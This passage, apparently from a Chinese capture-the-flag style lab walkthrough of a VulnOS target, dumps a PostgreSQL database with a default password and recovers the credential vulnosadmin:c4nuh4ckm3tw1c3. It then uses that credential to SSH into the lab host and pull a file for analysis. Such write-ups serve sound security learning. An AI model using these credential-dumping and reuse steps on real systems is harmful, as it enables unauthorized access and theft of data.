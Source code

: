 ```plain
PGPASSWORD="postgres" pg_dumpall -U postgres -h 127.0.0.1 -p 5557
```

或者使用 webmin:webmin1980 登录靶机手工查询，[相关命令参考](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql)

```plain
psql -h localhost -U postgres
\list # List databases
\c <database> # use the database
\d # List tables
SELECT * FROM  users;
```

[![](assets/1704158282-2d1e0adc6dee0fa99694c3d714c95a39.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010506-40248a32-a5a3-1.png)

> 拿到了一个用户凭据 vulnosadmin:c4nuh4ckm3tw1c3

# 立足点 2：shell as user2（ssh）

使用 vulnosadmin:c4nuh4ckm3tw1c3 成功 ssh 登录，没 sudo 权限，但在家目录发现文件 r00t.blend

```plain
ssh vulnosadmin@192.168.50.10

//kali
scp vulnosadmin@192.168.50.10:~/r00t.blend .
file r00t.blend
binwalk r00t.blend
cat r00t.blend
strings r00t.blend
```
